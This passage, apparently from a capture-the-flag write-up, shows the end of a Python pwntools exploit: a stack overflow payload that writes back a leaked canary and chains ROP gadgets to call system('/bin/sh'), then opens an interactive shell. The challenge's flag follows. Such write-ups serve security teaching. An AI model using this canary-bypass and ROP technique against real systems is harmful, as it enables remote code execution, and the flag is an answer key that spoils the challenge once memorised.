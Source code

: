 ```python
system = libc_base + system

print(hex(libc_base))

# exploit
payload = b'A' * 0x108
payload += p64(canary)
payload += b'B' * 8
payload += p64(ret)
payload += p64(popret)
payload += p64(binsh)
payload += p64(system)

p.sendlineafter(b'Text: ', payload)

p.sendafter(b'Text: ', b'\n')

p.interactive()
```

`ACSC{aRr4y_1nd3X_sh0uLd_b3_uNs1Gn3d}`
